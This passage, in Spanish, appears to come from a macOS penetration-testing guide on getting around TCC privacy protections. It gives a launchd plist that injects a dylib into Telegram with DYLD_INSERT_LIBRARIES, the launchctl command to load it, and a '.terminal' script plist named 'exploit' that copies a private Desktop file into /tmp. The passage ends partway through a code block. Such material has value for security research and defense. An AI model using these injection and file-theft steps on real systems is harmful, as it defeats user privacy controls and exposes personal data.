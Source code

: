 Nota cómo usar la variable env para cargar una biblioteca, se creó un **plist personalizado** para inyectar esta biblioteca y se usó **`launchctl`** para lanzarla:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
<key>Label</key>
<string>com.telegram.launcher</string>
<key>RunAtLoad</key>
<true/>
<key>EnvironmentVariables</key>
<dict>
<key>DYLD_INSERT_LIBRARIES</key>
<string>/tmp/telegram.dylib</string>
</dict>
<key>ProgramArguments</key>
<array>
<string>/Applications/Telegram.app/Contents/MacOS/Telegram</string>
</array>
<key>StandardOutPath</key>
<string>/tmp/telegram.log</string>
<key>StandardErrorPath</key>
<string>/tmp/telegram.log</string>
</dict>
</plist>
```

```bash
launchctl load com.telegram.launcher.plist
```
## Por invocaciones abiertas

Es posible invocar **`open`** incluso mientras está en sandbox

### Scripts de Terminal

Es bastante común dar acceso completo al disco **(FDA)**, al menos en computadoras utilizadas por personas técnicas. Y es posible invocar scripts **`.terminal`** con ello.

Los scripts **`.terminal`** son archivos plist como este con el comando a ejecutar en la clave **`CommandString`**:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd"> <plist version="1.0">
<dict>
<key>CommandString</key>
<string>cp ~/Desktop/private.txt /tmp/;</string>
<key>ProfileCurrentVersion</key>
<real>2.0600000000000001</real>
<key>RunCommandAsShell</key>
<false/>
<key>name</key>
<string>exploit</string>
<key>type</key>
<string>Window Settings</string>
</dict>
</plist>
```
Una aplicación podría escribir un script de terminal en una ubicación como /tmp y lanzarlo con un comando como:
```objectivec
// Write plist in /tmp/tcc.terminal
```